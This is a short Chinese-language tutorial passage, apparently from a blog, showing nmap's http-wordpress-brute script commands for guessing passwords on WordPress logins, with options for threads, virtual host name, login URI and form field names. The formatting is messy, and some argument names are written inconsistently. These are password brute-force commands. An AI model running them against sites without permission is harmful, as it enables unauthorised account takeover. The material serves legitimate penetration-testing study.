 发现使用弱密码账户安装的wordpress，输入如下命令：

```
`nmap -p80 --script http-wordpress-brute <target>`
  
  




```

[![Clipboard Image.png](https://i-blog.csdnimg.cn/blog_migrate/535af33a75f5788c7b4de6ccf297f673.jpeg)](http://image.3001.net/images/20160412/14604374389912.png)

设置线程的数量,使用脚本参数http-wordpress-brute.threads：

```
`nmap -p80 --script http-wordpress-brute --script-args http-wordpressbrute.threads=5 <target>`
  
  




```

如果服务器是虚拟主机,利用参数http-wordpressbrute设置主机字段：

```

```

nmap -p80 --script http-wordpress-brute --script-args http-

wordpressbrute.hostname=”ahostname.wordpress.com” &lt;target&gt;

设置一个不同的登陆URI,登录使用参数http-wordpress-brute.uri：

```
`nmap -p80 --script http-wordpress-brute --script-args http-wordpressbrute.uri=”/hidden-wp-login.php” <target>`
  
  




```

要改变存储的用户名和密码的POST变量的名称，设置参数http-wordpress-brute.uservar和http-wordpress-brute.passvar:

```
`nmap -p80 --script http-wordpress-brute --script-args http-wordpressbrute.uservar=usuario,http-wordpress-brute.passvar=pasguord <target>`
  
  




```
